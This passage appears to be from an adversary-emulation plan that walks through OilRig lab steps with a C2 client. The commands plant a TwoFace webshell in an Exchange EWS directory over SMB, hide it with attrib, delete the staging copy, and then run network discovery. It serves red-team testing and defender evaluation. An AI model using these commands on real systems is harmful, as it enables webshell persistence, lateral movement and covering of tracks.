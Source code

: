 The webshell is first placed on THEBLOCK (10.1.0.5) to prepare for copying via 
SMB to WATERFALLS.

```bash
./evalsC2client.py --set-task goTb '102 C:\Users\Public\contact.aspx|contact.aspx'
```

Once in place, OilRig has copied the webshell directly into the Exchange Web 
Services directory.

```bash
./evalsC2client.py --set-task goTb '101 copy C:\Users\Public\contact.aspx "\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\"'
```

Set the file hidden attribute on WATERFALLS and delete the webshell from 
THEBLOCK using SideTwist

```bash
./evalsC2client.py --set-task goTb '101 attrib +h "\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contact.aspx" & del C:\Users\Public\contact.aspx'
```

<br>

### :moyai: Source Code
*  TwoFace Webshell: [TwoFace](TwoFace.)

<br>

### :microscope: Cited Intelligence 
*  EWS lateral movement: https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/

<br>

## Step 5 - EWS Discovery

### :microphone: Voice Track

Step 5 emulates OilRig using the TWOFACE webshell to perform enumeration on the 
EWS `WATERFALLS (10.1.0.6)` to discover the SQL server `ENDOFROAD (10.1.0.7)`.

OilRig first uses the webshell to perform some initial discovery once on the 
host by enumerating the current user, system network configuration and system 
network connections. 

Output of the system network connections discovery indicates an open connection 
to `10.1.0.7` via a port commonly associated with SQL.

---

### :biohazard: Procedures

On Linux Attack Platform box, change directories to the TwoFace payload folder:

```
cd /opt/oilrig/Resources/payloads/TwoFace
```
